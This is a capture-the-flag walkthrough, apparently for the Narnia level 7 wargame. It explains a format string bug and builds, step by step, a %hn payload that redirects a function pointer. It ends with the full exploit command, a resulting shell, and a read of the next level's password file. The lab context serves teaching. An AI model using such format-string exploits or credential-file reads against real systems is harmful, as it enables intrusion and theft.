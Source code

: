 Briefly looking through the functions used in the above code, we can see that the snprintf() function is used again without format parameters. Which means this is another format string vulnerability challenge. After identifying what kind of challenge this would be, I started reading the entire code as a whole.

We can see in the main() an IF statement is used to the user they have to give 1 or more arguements to the binary, if the user doesn’t the application will close. If the user passes 1 or more arguements to the binary, the first arguement entered is passed to the vuln() function.

The vuln() creates a buffer of 128 bytes called buffer, also declares a function called “ptrf” which performs wildcard subsituation two previously declared functions (goodfunction()/hackedfunction()). Next in the vuln(), the buffer is filled with 0’s. Afterwards two printf() functions are used to print the location in memory of two functions (goodfunction()/hackedfunction()). Next the ptrf is set to equal goodfunction and then the current memory location of the ptrf() is printed to the screen. A message is printed to the screen and the program waits 2 seconds and then sets goodfunction() to equal ptrf again. The snprintf() is used to print the contents of the buffer. And finally the program returns to where ptrf() is pointing to, which at the current time would be goodfunction().

```
(gdb) r A
Starting program: /games/narnia/narnia7 A
goodfunction() = 0x804866f
hackedfunction() = 0x8048695
 
before : ptrf() = 0x804866f (0xffffd67c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
[Inferior 1 (process 4592) exited normally]
```

Obviously this challenge is overwrite the goodfunction() memory address in ptrf() with the memory location relevant to the hackedfunction(). This challenge actually gives us all the information we need to complete this challenge without us having to go looking for it. The information we need is the following:

The memory address of the ptrf() function that calls the other functions we have to overwrite (0xffffd67c).
The memory address of the function going to be called by the ptrf() (0x804866f).
And the memory address of the function we need to overwrite to (0x8048695).
This challenge is similar to the level 9 IO Smash The Stack challenge, in which the goal was to overwrite a memory address with a memory address which would lead to the shellcode for the exploit. But unlike that challenge, we can’t use the DTOR method. This left me scratching my head, but then I decided to have a look at the books in my library and pulled out two books which covered format string vulnerabilities.

In the book, Gray Hat Hacking, The Ethical Hacker’s Handbook. 3rd Ed., in chapter 12 there is a section for “Writing to Arbitary Memory” in format string vulnerabilities. Reading this section, it states that the easiest way to write 4 bytes into memory is to split it into two equal parts, and use the parameters #$ and %hn into the right place in memory. This means I need to split the hackedfunction() memory address into the two haves.

Two high-order bytes (HOB): 0x0804
Two low-order bytes (LOB): 0x8695

This book provides a table (table 12-2) which contains the formula to construct the string to overwrite the memory address. Based on the calculations done using the table I was able to proceduce the following string. If you don’t have access to the book, I’m sure you would be able to find a copy to reference. But if you don’t, I’ve included part of the reference table which I used for this challenge.

```
When HOB < LOB
[addr + 2][addr]
%.[HOB - 8]x
%[offset]$hn
%.[LOB - HOB]x
%[offset + 1]$hn
```

The below section is the results from the calculation.

```
[addr + 2][addr]    =       \x7e\xd6\xff\xff\x7c\xd6\xff\xff
%.[HOB - 8]x        =       0x0804 - 8 = 7FC (2044) = %.2044x
%[offset]$hn        =       %6\$hn
%.[LOB - HOB]x      =       0x8695 - 0804 = 7E91 (32401) = %.32401x
%[offset + 1]$hn    =       %7\$hn
```
Thus the final string sent to the challenge would be.

```
$(python -c'print("\x7e\xd6\xff\xff\x7c\xd6\xff\xff")')%.2044x%6\$hn%.32401x%7\$hn
```
```
narnia7@melinda:/narnia$ ./narnia7 $(python -c'print("\x7e\xd6\xff\xff\x7c\xd6\xff\xff")')%.2044x%6\$hn%.32401x%7\$hn
goodfunction() = 0x804866f
hackedfunction() = 0x8048695
 
before : ptrf() = 0x804866f (0xffffd67c)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8
```
